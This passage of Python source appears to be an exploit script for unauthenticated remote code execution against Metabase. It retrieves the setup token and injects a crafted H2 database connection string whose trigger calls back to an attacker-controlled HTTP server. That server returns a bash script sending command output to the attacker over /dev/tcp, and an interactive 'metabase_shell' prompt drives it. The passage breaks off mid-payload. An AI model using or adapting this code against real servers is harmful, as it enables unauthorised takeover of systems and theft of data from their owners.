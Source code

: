 ```python


class Termial(Cmd):
    prompt = "metabase_shell > "
    def default(self,args):
        shell(args)


class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        global success
        if self.path == "/exploitable":
            
            self.send_response(200)
            self.end_headers()
            self.wfile.write(f"#!/bin/bash\n$@ | base64 -w 0  > /dev/tcp/{argument.lhost}/{argument.lport}".encode())
            success = True

        else:
            print(self.path)
            #sys.exit(1)
    def log_message(self, format: str, *args: Any) -> None:
        return None

class Server(HTTPServer):
    pass

def run():
    global httpserver
    httpserver = Server(("0.0.0.0", argument.sport), Handler)
    httpserver.serve_forever()

def exploit():
    global success, setup_token
    print(colored("[*] Retriving setup token", "green"))
    setuptoken_request = requests.get(f"{argument.url}/api/session/properties")
    setup_token = re.search('"setup-token":"(.*?)"', setuptoken_request.text, re.DOTALL).group(1)
    print(colored(f"[+] Setup token: {setup_token}", "green"))
    print(colored("[*] Tesing if metabase is vulnerable", "green"))
    payload = {
        "token": setup_token,
        "details":
        {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules":
            {},
            "details":
            {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER IAMPWNED BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\nnew java.net.URL('http://{argument.lhost}:{argument.sport}/exploitable').openConnection().getContentLength()\n$$--=x\\;",
                "advanced-options": False,
                "ssl": True
                },
                "name": "an-sec-research-musyoka",
                "engine": "h2"
```